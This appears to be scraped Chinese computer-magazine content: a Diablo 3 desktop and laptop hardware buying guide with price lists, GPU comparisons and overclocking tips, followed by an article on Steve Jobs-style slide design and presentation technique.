与最新的FPS大作相比，《暗黑3》对硬件的要求会相对宽松一些，但考虑到现在越来越多的用户都会选择23英寸以上的全高清级别显示器，在1920×1080像素并打开全部特效时，对显卡的压力还是不小的，因此笔者建议大家选择GTX550Ti或HD6770系列级别的显卡，还能为《暗黑3》未来的资料片和其它3D大作留下足够的冗余空间。至于处理器的选择大家可以放开手脚，不足700元的酷睿i3-2100 (3.1GHz)和Athlon II X4 640 (3.0GHz)就足够了。如果你青睐AMD最新的Llano APU，那么笔者推荐集成HD6550D显卡的A8系列APU，不仅默认主频高，还能与HD6770独显混合交火，性能提升幅度远高于笔记本平台，最终的游戏性能已经足以媲美更高端的HD6750独显了。接下来，笔者就向大家推荐3套攒机方案。

### 三显卡也能协同作战

有关Llano APU和AMD自家独显组建混合交火的方法已经是路人皆知了，但你知不知道在这套交火系统的基础上，还能再加上NVIDIA方面的独显，让三块显卡(一个集显，两个独显)协同作战呢？简单来说，就是让两块混合交火的A卡负责3D渲染，再用另一块NVIDIA独显负责物理加速。组建三显卡的前提是你的A75芯片组主板要带有两个显卡插槽。具体操作的方法和实现APU混合交火类似：先不要安装独显，将显示器接在主板集成显卡的接口上，进入系统安装AMD 11.6a或以上版本驱动，然后进入BIOS打开“IGD Video/Cross Fire”输出”功能（具体过程请参考你的主板说明书），关闭电脑。接下来将AMD独显插在PCI-E ×16插槽上，而NVIDIA独显插在PCI-E ×4（PhysX技术对带宽要求不高），开机后安装两个显卡的驱动程序，安装完毕后先不要重启，运行三显卡的破解补丁（下载地址：http://tinyurl.com/3w9xj57），点击“APPLY”按钮，破解成功后该按钮会变成“DONE”。重启计算机后，打开GPU-Z看看“PhysX”选项是不是已经打开了？今后再玩《黑手党2》等支持物理计算的游戏时，速度将大幅提升。

| 项目 | Slow画质 | Low画质 | Medium画质 | High画质 |
|------|----------|---------|------------|----------|
| 集成显卡 | GeForce 7050 | Intel核芯显卡 / APU集成显卡 | ---- | ---- |
| 台式显卡 | GeForce 6600~7800GS<br>Radeon X1650~X1900 | GeForce 7800GT~GT520<br>Radeon X1950~HD5490 | GeForce 8800GTX~GT530<br>Radeon HD2900~HD6670 | GeForce GTX280~GTX590<br>Radeon HD 4800~HD6990 |
| 移动显卡 | GeForce Go 6800 | GeForce 310M<br>Radeon HD 4530 | GeForce GT330M<br>Radeon HD5730 | GeForce GTX 280M<br>Radeon HD5800 |
| CPU | 奔腾D 2.8GHz/速龙64 X2 4400+ | Core i3/Athlon II X2或更高级别处理器 | | |
| 内存 | 1GB | 2GB以上 | | |

更详细的资料，请参考 http://tinyurl.com/3vtxpd6

| 配置 | 参考价格 |
| --- | --- |
| CPU 酷睿i3-2100 (3.1GHz) | 670元 |
| 主板 技嘉GA-H61M-USB3-B3 | 588元 |
| 内存 海盗船XMS3 DDR3 1600 (2GB×2) | 218元 |
| 硬盘 希捷1TB (7200rpm) | 379元 |
| 显卡 技嘉GV-N550OC-1GI (GTX550Ti) | 899元 |
| 合计 | 2754元 |

A方案的亮点在于技嘉GV-N550OC-1GI显卡，默认的核心/显存频率就达到了970/4200MHz，10CM超大风扇既静音也保证了散热效率，在与英特尔酷睿i3-2100处理器结合后足以满足流畅运行《暗黑3》的要求。如果你预算还有富余，选择支持睿频加速的酷睿i5-2300（1099元左右）后性能还会有明显提升。

| 配置 | 参考价格 |
| --- | --- |
| CPU 酷睿i5-2500K (3.3GHz) | 1450元 |
| 主板 华硕P8Z68-V LE | 999元 |
| 内存 金士顿HyperX DDR3 1600 (4GB×2) | 399元 |
| 硬盘 日立2TB (7200rpm) | 799元 |
| 显卡 索泰GTX560Ti-1GD5极速版 | 1699元 |
| 合计 | 5346元 |

正如刘博文所说，想在1920×1080最高画质下体验《暗黑3》，需要在官方推荐配置的基础上适度拔高一些，因此在B方案中推荐不锁倍频的酷睿i5-2500K处理器与NVIDIA高端的GTX560Ti显卡组合，而8GB容量的内存也可以保证3年内配置不落伍，让你轻松玩转未来《暗黑3》的资料篇。

| 配置 | 参考价格 |
| --- | --- |
| CPU A8-3850 (2.9GHz) | 1099元 |
| 主板 技嘉GA-A75-D3H | 799元 |
| 内存 海盗船XMS3 DDR3 1600 (2GB×2) | 218元 |
| 硬盘 希捷1TB (7200rpm) | 379元 |
| 显卡 盈通R6670-1024GD5游戏高手 | 677元 |
| 合计 | 3172元 |

AMD的Llano APU加入了类似睿频的自动超频功能，在A75主板的支持下，可以让HD6670和CPU内部集成的HD6550D组建混合交火系统，获得免费的性能提升。需要注意的是，想让混合交火性能达到最大，一定要采用双通道内存，用于交火的独显只能是HD6600系列（不能用HD6700或以上级别），而且也仅支持Win7系统，显示输出要使用集成显卡的接口。

### 挑战《暗黑3》笔记本选购指南

### 《暗黑3》外设装备推荐

想玩爽《暗黑3》，光靠强大的处理器与显卡还是不够的，它们只能帮你保证游戏速度，但影响我们游戏心情的除了速度还有操作体验呢。比如显示器能否显示出地图阴暗环境中的细节？鼠标键盘的手感是否出众？

目前15.6英寸以下笔记本的标准分辨率均为1366×768像素，在较高画质下运行《暗黑3》的压力相对会比台式机小一些。但是，笔记本毕竟身材过于娇小，在有限的空间里，唯有合理的硬件搭配才能帮助我们自由驰骋在《暗黑3》的世界中。如果6000元就能解决问题，咱们也没有必要花费更多的开销了，对不对？

### 显卡，高端才是硬道理

如果说更高主频的处理器能让《暗黑3》的体验“锦上添花”，那么显卡就成是影响平时游戏运行速度的决定性因素。同样的配置，不同的显卡间可能就会表现出云泥之别的差距。

### 处理器，主频是王道

包括《暗黑3》在内，绝大多数游戏对CPU的核心数量并不敏感，在需要大量AI运算的游戏场景中（比如《星际争霸2》后期的混战，几百人口的乱战场面出现卡顿，有时并不是显卡性能不够，而是CPU处理不过来了），更高的主频往往能最大限度避免卡顿的发生。

GT525M和HD6630M分别是主流价位笔记本中常见的型号，它们都具备在1366×768像素标准分辨率与中低特效下运行《暗黑3》的能力，但想在更高画质下流畅游戏就显得力不从心了。想兼顾游戏速度与画质，GT555M和HD6700M系列独显将成为我们的不二之选。

### 挑选GT555M需留神

目前在4000～6000元价位区间中最常见的NVIDIA独显就是GT525M、GT540M和GT550M（流处理器都为96个，后者频率更高）了，而GT555M则是在它们之上的更高端型号，拥有144个流处理器。需要注意的是，GT555M显卡的规格比较乱，NVIDIA官方给出的参数表明GT555M应该具有完整144个流处理器，且可以搭配192bit DDR3或者128bit GDDR5规格的显存。但笔记本厂商出于成本、散热等因素的考虑，将GT555M又划分为了三个版本（见表2），其中以联想Y570A为代表的“版本A”虽然搭配了GDDR5显存，但却将流处理器数量削减到和GT540M一样的96个，其性能表现仅仅是略强于高端一点的GT540M而已。

AMD针对笔记本推出的Llano APU的性能表现较AMD以前的产品有了明显的提升，可惜其主频偏低，而且多被厂商用于主打低端性价比的型号中。为了实现混合交火的特性，这类笔记本也多与HD6600M级别的独显搭配，游戏性能反倒不如直接搭配HD6700M系列单显卡来得强劲。当然，如果你的预算不到4000元，选择采用AMD A6-3400M四核处理器与HD6550M独显组合的产品也是足够体验《暗黑3》的。

| 型号 | 主频 | 睿频 | 核心数量 | 三级缓存 |
| --- | --- | --- | --- | --- |
| i7-2860QM (新) | 2.5GHz | 3.6GHz | 4 | 6MB |
| i7-2760QM (新) | 2.4GHz | 3.5GHz | 4 | 6MB |
| i7-2720QM | 2.2GHz | 3.3GHz | 4 | 6MB |
| i7-2670QM (新) | 2.2GHz | 3.1GHz | 4 | 6MB |
| i7-2630QM | 2.0GHz | 2.9GHz | 4 | 6MB |
| i7-2640M (新) | 2.8GHz | 3.5GHz | 2 | 4MB |
| i7-2620M | 2.7GHz | 3.4GHz | 2 | 4MB |
| i5-2540M | 2.6 GHz | 3.3 GHz | 2 | 3MB |
| i5-2520M | 2.5 GHz | 3.2 GHz | 2 | 3MB |
| i5-2430M (新) | 2.4 GHz | 3.0 GHz | 2 | 3MB |
| i5-2410M | 2.3 GHz | 2.9 GHz | 2 | 3MB |
| i3-2350M (新) | 2.3GHz | 不支持 | 2 | 3MB |
| i3-2330M | 2.2GHz | 不支持 | 2 | 3MB |
| i3-2310M | 2.1GHz | 不支持 | 2 | 3MB |

如果你的预算足够，笔者强烈推荐支持睿频加速的英特尔酷睿i5或i7处理器，3.0GHz级别的最高主频是流畅玩《暗黑3》的品质保障。值得关注的是，英特尔近期还推出了i5-2430M、i7-2640M等新型号（见表1），默认主频更高，大家在选购5000元以上价位的游戏笔记本时，可优先挑选搭载这些新处理器的新品。在4000元左右的价位上，新出的酷睿i3-2350M也是不错的选择，2.3GHz的主频已经和i5-2410M的默认主频一样了。至于更低端的型号，除非你预算特别紧张，否则不太推荐。

### 小提示：

如果你的口袋能承担起万元以上的开销，还可以选择搭配GTX 500M或HD6800M顶级显卡的产品，这类笔记本不仅拥有媲美高端台式机的性能，屏幕通常也能达到1920×1080全高清的显示级别呢。

| | 官方版本 | 版本A | 版本B | 版本C |
| --- | --- | --- | --- | --- |
| 显存类型 | DDR3/GDDR5 | GDDR5 | DDR3 | DDR3 |
| 显存位宽 | 192bit/128bit | 128bit | 192bit | 128bit |
| 流处理器 | 144 | 96 | 144 | 144 |
| 光栅单元数量 | 24 | 16 | 24 | 16 |
| 代表产品 | ---- | 联想Y570 | 戴尔M14x | 华硕N45 |
| 3DMark Vantage GPU成绩 | ---- | 19622 | 23516 | 22157 |

### 微软光学银光鲨IE3.0复刻版

职业玩家的一致推荐肯定是有道理的，虽然IE3.0没有现在新出的鼠标那般光鲜的外表，但其把握的手感、鼠标左右键的弹性、鼠标移动时的灵敏度至今仍鲜有敌手，最重要的是现在IE3.0复刻版的价格也只有169元了，你值得拥有！

### 雷柏V5黑轴机械键盘

《暗黑3》需要大量的键盘操作，在预算充裕的情况下机械键盘自是首选。雷柏V5采用了Cherry原生黑轴按键，长时间的激烈游戏也不会导致手指酸痛。雷柏V5全键盘均可自定义编程（包括宏设定），在紧张的游戏中能帮你争取到宝贵的操作时间。

### 戴尔UltraSharp U2412M

《暗黑3》游戏风格偏阴暗，想看清每个画面的细节，采用E-IPS广视角面板的戴尔U2412M一定不会让你失望。这款产品的显示效果远非同价位TN面板的产品可比，拥有1920×1200的全高清分辨率，机身表面还采用了3H硬化防眩光涂层，可以更加贴心地减少外界因素对屏幕造成的影响。

### 多彩 SH891烈火金刚游戏机箱

在玩《暗黑3》时，如果电脑桌上的机箱也能遥相呼应地散发出炫目的背光，是不是能让你玩得更有感觉呢？多彩SH891就是一款专为游戏定制的机箱，接通电源后机箱面板和顶部会散发出如同烈焰般火红的背光，绚丽至极。出色的做工用料与人性化的免螺丝扩展设计，也能让你尽情享受DIY的乐趣。

## HD6700M优先看显存

相对GT555M而言，AMD HD6700M系列显卡不存在太多版本的问题，HD6730M/HD6750M/HD6770M显卡的显存位宽和流处理器数量都是相同的，差别在于显存的版本与核心/显存频率上的差异（见表3）。但是，出于成本和定位的考虑，相对低端的HD6730M通常只会与DDR3显存搭配，此时其性能表现与NVIDIA方面GT550M持平，逊色GT555M不少。而HD6750M和HD6770M则多与GDDR5显存搭配，借助GDDR5高频率和高带宽的优势，HD6750M基本可以和非标准版的GT555M抗衡，而HD6770M则可以小胜标准版的GT555M。综合来看，挑选AMD HD6700M系列显卡应该优先考虑配备GDDR5显存的型号，比如HD6750M，可以借助超频软件“免费”实现HD6770M的性能。

## 一键超频，让显卡更给力

如果你的预算不足以选购搭配上述高端显卡的笔记本，也一定要挑选搭配NVIDIA GT525M或者HD6630M级别的中端独立显卡，通过第三方软件对核心/显存超频后同样可以明显提升《暗黑3》的速度。笔者向大家推荐MSI Afterburner软件（下载地址：http://www.onlinedown.net/soft/93302.htm），可以很方便地实现超频和降频的操作。MSI Afterburner软件界面很简洁，窗口左边是频率调节窗口，右边是状态监控窗口，只需拉拉标杆，点击Apply按钮就能实现频率的调整。这款软件可以保存五种配置信息，调整好频率后点击Apply按钮确定，再点击Save按钮，旁边的五个序号为1~5的按钮会变成绿色，点击其中的一个按钮后该按钮会变成白色，表示已保存当前的频率设置。根据需求改变频率，重复上述设置可保存更多方案，每次切换时只需选择对应的方案保存序号，然后点击Apply键就OK了。

| 显存类型 | DDR3/GDDR5 | DDR3 | GDDR5 | GDDR5 |
| :--- | :--- | :--- | :--- | :--- |
| 显存位宽 | 128bit | 128bit | 128bit | 128bit |
| 流处理器 | 480 | 480 | 480 | 480 |
| 代表产品 | ---- | 海尔7G | 惠普DV4 | 惠普DV6 |
| 3DMark Vantage GPU成绩 | ---- | 18032 | 21380 | 25590 |

## 看乔布斯如何用幻灯片征服世界

作为世界上最具魅力的演讲大师，乔布斯虽然离开了苹果，但他的精彩演讲令观众至今难忘。而在乔布斯的每次主题演讲中，幻灯片都担当了重要的角色。本期特别话题不仅将详细讲述乔布斯幻灯片的秘诀，还将分享这位“天才演说家”的演讲风格和技巧，令你在万人讲台，也能如乔布斯一样挥洒自如、掳获人心。

## 构思篇 做幻灯片前的重要工作

关键词：巧妙地讲述故事

乔布斯的演讲看上去毫不费力，实际上经过了精心的准备和反复的排练。在演讲的准备过程中，有很多重要的工作要做。但如果告诉你其中不包括幻灯片的制作，不仅如此，还要先将幻灯片抛之脑后，你是不是会感到很惊讶呢？

乔布斯的演说时间一般约90~120分钟，和一部电影相当，但是你如果看到演说完毕后观众出场时的表情，你会发现，乔布斯的演说对观众内心的触动能力，不亚于一部好电影。除了苹果产品本身的原因，乔布斯的“导演”的功底功不可没。他的演讲就像是在讲述一个引人入胜的神奇故事。一般讲师大多没有乔布斯的功力，演说内容单调得让你分不清站在台上的讲师，还是僵尸。一个好的演说者，首先应是一个好的故事讲述者。因此，在开始制作幻灯片之前，最重要的一件事就是——给别人讲述一个动人的故事。

请记住，调动观众激情的是你精心设计的故事情节，而不是幻灯片。软件工具（不管用是Keynote还是PowerPoint）本身不会讲故事，让故事生动起来并打动观众的是你的内心。所以虽然听上去有些违背常理，但我们必须暂时搁置幻灯片的设计问题，包括字体、颜色、背景、切换等。

## 10/20/30原则

一次幻灯片演讲，应该只有10页幻灯片，持续时间不超过20分钟，字体不小于30磅。这是一项几乎通用的原则。

10，是幻灯片中最理想的页数。一个普通人在一次会议里不可能理解10个以上概念。

20，是你必须在20分钟里介绍你的10页幻灯片。事实上很少有人能在很长时间内保持注意力集中，你必须抓紧时间。你在20分钟内完成你的介绍，就可以留下40分钟时间进行讨论——除非你不喜欢讨论，否则，最好还是尽快完成你的阐述吧。

30，是你的幻灯片文本内容的字体大小（其实30磅只是一个象征，意思是尽可能大）。大多数幻灯片都使用不超过20磅字体的文本，并试图在一页幻灯片里挤进尽可能多的文本，然后陈述者可以读它们。然而只要听众发现你在照本宣科，他们就可以在你之前读完，因为他们读起来总会比你说得更快。结果造成——你和你的听众不同步。

## 小知识：

幻灯片设计大师建议演讲者花90个小时去准备一份时长1小时的演讲材料，其中包括30张幻灯片，但只应该有1/3的时间被用于制作幻灯片，最初的27个小时应被用于研究专题，收集专家意见，组织观点和思路，与同事合作，以及勾勒出故事的轮廓。

## 策划故事的五要素原则

大多数人对策划故事情节缺乏彻底而全面的考虑，而高效的沟通大师往往事先策划好扣人心弦的故事内容。例如，配备简短而引人注目的标题，方便听众跟随他（她）的思路步入下一步陈述的内容，同时不忘引入一个共同的对手，提供戏剧所需要的情节冲突，引起听众的共鸣。就像一部经典的电影所做的那样。

乔布斯的演讲遵照了亚里士多德经典的五要素原则：

1.  首先讲述一个故事或提出一个观点，激发听众的兴趣。
2.  然后抛出一个问题，进一步吸引观众。
3.  对你提出的问题给出一种回答或答案。
4.  描述采纳你的解决方案能带来的具体利益。
5.  号召听众行动起来。如果是乔布斯，他会直接说：“现在，出去买一款吧！”

在构思你的演讲故事情节时，不妨将这些要素纳入进去。完成情节的构思后，在纸上将你的想法勾勒出来。

接下来，我们要将思路草图转变为幻灯片，进入实际的制作阶段。创建幻灯片并不像构思故事情节那样需要花费太多时间。一旦我们清晰地说明了故事情节，幻灯片设计起来就很容易了。下面，正如乔布斯在演讲一开始常说的那样：“现在让我们开始吧！”

## 操作篇 现在让我们开始吧

关键词：单色 字体 化繁为简 图表效应

创建乔布斯式的幻灯片将会使你更加引人注目。这仅仅是因为很少人采用他制作幻灯片的方式。乔布斯幻灯片中可学习的元素实在太多，我们这里以主流的PowerPoint软件为例，只列出4个最重要的元素。

## 1.单色风格

乔布斯式幻灯片总是选择给人以力量感、稳定感的蓝灰色（也被称为苹果灰）做底，配上白色的苹果独有字体，没有任何其他颜色。这就是典型的单色幻灯片，既简洁明了，也体现出苹果风格。这样的配色就为图片、图表留下了足够的颜色空间，不必再为图片、图表颜色是否与背景的颜色协调而烦恼。而且整个演示过程中，幻灯片的颜色、字体、背景等格式都保持统一的风格，突出了主题。

### 范例：

一般文字颜色以亮色为主，背景颜色以柔和的暗色为主。文字颜色与背景颜色要构成强烈的对比。如果在较暗的房间内演示，使用深色背景配合浅色文字（如蓝底白字），可取得不错的视觉效果。如果在灯光明亮的房间内演示，用浅色背景配合深色文字（如白底黑字）效果更好些。下面列出几种视觉效果好的颜色搭配方案（文字颜色/背景颜色）：白色/蓝色。白色/黑色，白色/紫色，白色/绿色，白色/红色，黄色/蓝色，黄色/黑色，黄色/红色。

### 实战：

在PPT 2003中，在幻灯片空白处右击并选择“背景”，在弹出的对话框中设置单色背景（建议用较暗、柔和的背景色）。如果感觉单色比较单调的话，可以在“填充效果”中选择渐变色的效果，然后单击“全部应用”，即可应用到所有幻灯片。

可在幻灯片母版中统一设置全部幻灯片的色调和色系，包括背景和字体颜色。字体颜色和背景的颜色对比要强。单击视图-模板-幻灯片模板，切换到幻灯片视图，在母版中设置背景色和字体颜色，即可应用到所有的幻灯片上。

## 2.字体的设置

背景和字体的配色确定了后，字体是我们要考虑的另外一个重要因素。面对几百人的会场，幻灯片中的字号要大一些，不能小于30磅，以确保坐在最后一排的观众也能看清楚。

所有幻灯片的标题应当尽量采用相同的字体、大小、格式和颜色，标题放置的位置也要每张都一样，这可以让听众快速注意到标题要点。字体、字号以及标题的位置都可以从母版中统一设置。

### 范例：

乔布斯选择的是苹果自带字体，体现了主题。当遇到需要强调的关键词时，乔布斯总是会优先考虑用放大字号的方式来强调。

### 实战：

幻灯片中尽量使用笔画粗细一致的字体，如黑体、宋体、微软雅黑、Arial、Tahoma。对于宋体需要注意的是，往往在本机看着舒服，但播放的效果比较差，而楷体在不同字号大小情况下，失真比较少。

幻灯片放映时，其中的文字通常颜色暗淡、边缘模糊。所以最好选用粗体，按(Ctrl+B)即可将字体加粗。而字号一般不小于30磅，当然这只是一个参考，具体要根据屏幕大小等来调整。

幻灯片用多大字体合适呢？可以使用下面的技巧来测试。选择“文件”→“打印”，在“打印内容”下拉列表框中选择“讲义”，然后设置“每页幻灯片数”为9，这样就以每页9张幻灯片的密度把演示文稿打印在纸上。接下来观看打印纸，如果看不清每张幻灯片上的所有文本，那么坐在房间后排的观众肯定也看不到。

## 3.化繁为简

你身后的屏幕，并不是观众手里的小说，他们没有耐心一行一行读下去。每页的字多了，字必然变小，后面的观众也就看不清了，不妨学习乔布斯，每页只用一两个词或醒目的图片。

乔布斯的幻灯片崇尚极简主义，几乎没有出现几句话或者文字，也几乎没有出现过项目符号和编号，并且完全没有要点提示。这就引出了一个问题：一个没有要点提示的PPT演讲材料还能算是PPT演讲材料吗？答案是肯定的，并且这样的演讲材料看起来更新颖别致。

### 慎用项目符号和编号

PowerPoint软件本身可以提供模板，但是这种形式的幻灯片风格和乔布斯式的幻灯片演讲风格截然相反！事实上，进行演示时，项目符号和编号是沟通中最无效的形式！如果只是往幻灯片里添加标题和副标题，然后讲述和幻灯片显示内容完全一样的信息，只会把幻灯片变成一个毫无创意的“填充物”！因为项目符号或编号给观众一种心理暗示：请把这些记下来，现在并不需要真正理解它们。试想人们去看话剧、小品时绝不会带上笔记本，但却能引起观众的共鸣。

在iPad演讲的任何一张幻灯片中都找不到要点提示符，那里面既有文字又有图片——很多图片——可就是没有一个要点提示符。

### 范例：

乔布斯在2008年Macworld大会上的4张演讲幻灯片可谓惜墨如金，其字数总和远远少于其他演讲者拼命挤压进一张幻灯片中的内容。据统计，总共只有7个词、3个数字、1个日期，没有任何要点提示。

请记住表中的文字和数字，幻灯片上出现的词和乔布斯演讲的节奏完全同步。当乔布斯说：“我们今天要谈谈音乐”，观众将看到幻灯片上出现的唯一的词就是“音乐”，文字作为他演讲的补充适时出现。如果幻灯片上有太多文字，那么文字很难和演讲保持同步，听众也很难同时关注你的演讲内容和幻灯片显示的内容。总之，简单的幻灯片可以使观众集中精力，将重点放在演讲者身上。

### 小提示：

苹果公司广告的标题让人难忘是因为它满足3个标准：简洁、具体（如1000首歌曲），同时它告诉消费者因此可以获得的个人利益（如可以将你喜欢的歌曲随身携带）。

### 小知识：

如果版面上只有一个焦点，放的位置也要特别考虑。例如，纯文字的焦点要在垂直中间偏上一点的位置；如果是图片和文字混合排列，左侧1/3的地方放置图片，右侧2/3的地方放置文字。

### 数字“三”的原则

乔布斯在演讲中一以贯之的技巧就是，首先概述3~4个要点，然后再回到第一个要点，深入解释了每一个要点后，最后再汇总各要点，逻辑系统严密。

向你的听众说清楚3个要点，为他们指明方向，可以清楚地表明你现在的处境和未来的打算。这是确保你的听众和你保持同步，进行信息分享的简单的秘诀。因为一段时间内，我们只能接受少量的信息，这是公认的事实。因此，乔布斯很少抛出超过3~4个关键信息。

| 演讲原话 | 幻灯片内容 |
| :--- | :--- |
| 让我们从iTunes开始吧 | iTunes |
| 超过30000集电视节目 | 30000集电视节目 |
| 今天，我们有一些令人兴奋的东西与大家分享。在此之前，我只想先来谈谈这个（他指着背后的幻灯片） | 有关我死亡的报道极度夸张 |

> @ 乔布斯在2008苹果“我们来摇滚”发布会上的演讲摘录

### 实战：

现在，请把你当前幻灯片中所有的项目编号通通删除，至少删去其中那些数字，或者是对其进行加工后再使用。尽量避免使用标准的要点提示，首选图片。聚焦于每张幻灯片的主题，并用照片或图像补充说明主题。

### 不超过140字符的短标题

有效的演讲幻灯片每张里面只能有一个信息、一个要点。乔布斯创建的标题具体鲜明，让人过目不忘，适合作为微博的内容进行发布。对于几乎所有的苹果产品，乔布斯都可以用一句话精辟地予以概括。当然，这在规划阶段就要精心设计，是需要在演讲、新闻发布会和营销材料定稿之前完成的工作。最重要的是，标题前后要求一致。

大多数演讲者都无法用一句话提纲挈领地描述他们的公司、产品或服务。因此，在策划阶段缺乏设计好的标题，进而导致无法传达前后一致的产品信息也就变得不难理解。确定一个简单明了的标题，其他的演讲内容也就可以自然而然地围绕着它展开了。

### 范例：

在2001年10月23日的iTune发布会上，乔布斯原本可以说：“今天我们推出一款全新的超便携式MP3播放器，它重量不到1千克，硬盘达到5GB，又一次实现了苹果产品方便好用的传奇。”乔布斯只是简单地说：“iPod播放器，能把1000首歌曲装进你的口袋里。”幻灯片提示：“把1000首歌曲装进你的口袋里。”简简单单的一句话告诉了你全部。

以下是其他一些经典的苹果标题，虽然其中一些字句稍长些，但仍然控制在140个字符之内，适合通过微博发布。
“世界上最受欢迎的音乐播放器横空出世。”（2008年9月，推出第四代iPod nano）
“iPhone 3G网络。花一半钱，快了两倍。”（2008年7月推出iPhone 3G）
“这让Mac用户更加爱他们的Mac，也给了PC用户更多的理由转而爱上Mac。”（2007年7月，推出全新的iLife ‘08软件）
“苹果重新发明了手机！”（2007年1月，推出iPhone手机）

### 实战：

自行创建标题，用一句话简明清晰地说明公司、产品或服务的愿望。最有效的标题往往是简明扼要（不超过140个字符），具体鲜明的，并且能清楚地解释可能带给个人的利益的。每个幻灯片只放一个主题。

### 范例：

2008年9月的苹果公司全球开发者大会上，乔布斯出示了一张幻灯片，上面是一个三条腿的凳子。“你知道，苹果公司产品现在有三大支柱，”他说。“第一部分，当然是苹果电脑。第二部分是我们的音乐业务，包括现有的iPod播放器和iTunes管理器。第三部分就是现在的iPhone手机。”

### 实战：

创建一个要点清单，向观众重点介绍你的产品、服务、公司或倡议。对清单上的所有要点进行归类，最后只剩下三大类或者三组，这三组要点将成为你的演讲口头纲要。

## 4.图表效应

现在，我们已经尽可能地简化了我们的幻灯片，那么如何使这些“朴素”的幻灯片更有吸引力呢？那就是尽可能地采用图表！通过可视化的表现形式再现思想是强有力的。心理学家用专门的术语来表述这个概念——图片优势效应（PSE）。多数情况下，人们对图片的记忆总是优于对文字的记忆。

乔布斯非常注重图像效应，在幻灯片中大量使用图标，几乎不用要点提示（要点提示的呈现方式虽然清晰，但容易让人觉得枯燥）。而且每一张简报都相当干净，在统计图表的使用上，乔布斯则只使用柱状图和圆饼图，完全不使用其它复杂的图表。

乔布斯明白，当他的想法通过文字和图片的方式呈现出来时，比纯文字的形式更容易被听众清晰地保留在记忆中。

### 范例：

2008年6月，乔布斯在苹果全球开发者大会上宣布推出iPhone 3G。他前后一共运用了11张幻灯片，其中只有一张幻灯片上出现了文字（iPhone 3G），其他幻灯片全部由照片组成，将“图片优势”效应发挥到极致！

### 实战：

把你的演讲幻灯片设计得更图像化吧。挑选图片时要注意，有的图片有自己的白色背景，一定要去掉才能跟PPT的背景完美融合。PPT 2010新增加了“删除背景”图片处理工具。选中图片，选择图片工具—格式→删除背景。可以看到“标记要保留的区域”和“标记要删除的区域”两个按钮。

调整选择框的大小，划定将删除的区域，然后点击“标记要保留的区域”，标记需要保留的部分，再点击“标记要删除的区域”，标记需要删除的部分，最后选择“保留更改”即可，如果要更好的效果，可以在PhotoShop中进行设置。

对于图表，还有一个要注意的就是尽量要去掉过多的颜色、线条和边框修饰。太多的边框和线条反而有喧宾夺主的感觉，转移了大家对图表数据内容本身的关注。

## 进阶篇 精益求精 向领袖看齐

关键词：修饰数字 避免术语 抛开底稿 讲台和灯光 穿着 语调 肢体语言

目前为止，我们已经学习了乔布斯演讲的诸多细节。下面，你将学习到乔布斯如何精益求精、反复排练演讲的内容，以及一些舞台技巧和语言技巧。如果你希望自己在舞台上看起来像一位领袖人物，那么请耐心看完这最后一步。

## 1.精心修饰数字

数字本身很难让人产生共鸣，只有这些数字结合上下文情境被赋予一定的含义时，人们才可以理解它。帮助人们了解数字意义最好的方法，是将这些数字与人们已经熟悉的事物联系起来。

### 范例：

让我们来看一个例子，学习乔布斯如何结合一定的情境和背景，使数据易于理解、与听众的相关程度更高。2005年2月23日，苹果的产品线上增加了一款新的iPod。这款新的iPod拥有30GB的海量存储空间。大多数消费者可能无法得知30GB对他们意味着什么，他们只知道这比8GB“大一些”，但仅此而已。乔布斯永远不会公布没有上下文的纯粹的数字，而是将其转变为听众可以理解的语言。

他告诉大家，30GB的内存足够储存7500首歌曲，25000张照片，或长达75小时的视频。这样的描述符合具体的原则（7500首歌曲，相对于“成千上万”首歌曲而言），符合与听众相关的原则（需要随身携带歌曲、照片和视频的人），同时也结合了一定的情境和背景，便于听众理解。这是因为他强调了核心消费者最关心的数据。

### 实战：

- 运用数据描述演讲材料的关键主题。仔细选择想要描述的数字，不要一次性抛出太多数字，让听众难以把握。
- 使你的数据具体化并与读者建立关联，且结合一定的情境和背景予以解释说明。也就是说，将数字和听众的生活紧密结合起来。
- 运用修辞手法，比如，用比喻法来修饰你的数字。

## 2. 避免堆砌术语

你可能已经注意到，乔布斯的常用语也是大多数人在日常生活的闲聊中常用的词汇，大多数演讲者在台上演讲或者作报告时会改变说话的方式，而乔布斯台上台下都是一样的简约风格。他对苹果公司的品牌有信心，并从他选择的词汇中得到快乐。一些批评家可能说他的语言近乎夸张，但乔布斯和他的数百万听众一起有力地回应着这些批评。

不要怕使用简单的词汇和描述性的形容词。如果你真的发现某件产品“令人惊异”，不妨就这样说。因为如果连你自己都不为这一出色的产品感到兴奋，你怎能期望其他人有多兴奋？

### 范例：

乔布斯讲话时使用的词汇年轻而口语化，“令人惊异”、“难以置信”、“棒极了”。在介绍自家产品时，会用许多形容词——“这是我们生产最好的音乐播放器”、“高贵的颜色”、“令人叹为观止的画质”、“它的外观真是难以置信”、“我们把屏幕上的按钮做得漂亮到让人忍不住想要舔一舔”……这样的表达方式，只要不要太过夸大，就可以为演说加分，连带感染全场情绪。

### 实战：

整理你的稿子，删除多余的语言、专业术语和行话。编辑、编辑，再编辑，删除、删除，再删除。

让你的言辞充满乐趣。可以通过夸张的表述形式和描述性的形容词，表达你对所介绍内容的热爱。

## 3. 不断练习 抛开底稿

如果演员出现在舞台上，手持底稿，听众一定会纷纷走开。我们期望演讲者自然地表演，而不是死记硬背台词。虽然事实上他们确实需要背下台词。其实，你的听众也期望看到你精确地表述每一个要点，脉络分明，而不想听你信口开河。

### 范例：

乔布斯准备一场演讲，通常需要排练4个小时。在舞台和第一排观众之间，还放置屏幕，以为重点提示之用。屏幕的高度当然不可以影响到观众的视野。为了避免眼睛一直瞄向某个位置的屏幕，乔布斯准备了至少3个屏幕。而且由于屏幕接近第一排观众的位置，所以看屏幕时，观众会觉得他是在看观众。

### 实战：

1.  在幻灯片的注释中，使用完整的句子写底稿。这不是长篇大论的时候，尽量用完整的句子简单地写出你的想法。不要超过4~5句。
2.  突出显示或强调每个句子的关键词，然后练习演讲。不用担心磕磕巴巴，或者忘记某个要点。根据需要瞥一眼关键词，以唤醒你的记忆。
3.  从你的底稿中删除多余的词，只留下关键词。再次练习演讲，这次只使用关键词来提醒自己。
4.  每页幻灯片只留下一个核心思想，记住这个核心思想。问自己一个问题：“什么是我希望听众离场后仍然记得的内容？”幻灯片应当图文并茂，图片应成为幻灯片主题思想的补充说明。在这种情况下，图片就起到了提示的作用。例如，当乔布斯谈到MacBook Air运用英特尔的酷睿2双核处理器时，他的幻灯片上只显示该处理器的照片。他想让听众知道的“一个主题”是：苹果公司已经制造了一款超薄笔记本电脑，但没有在性能上大打折扣。
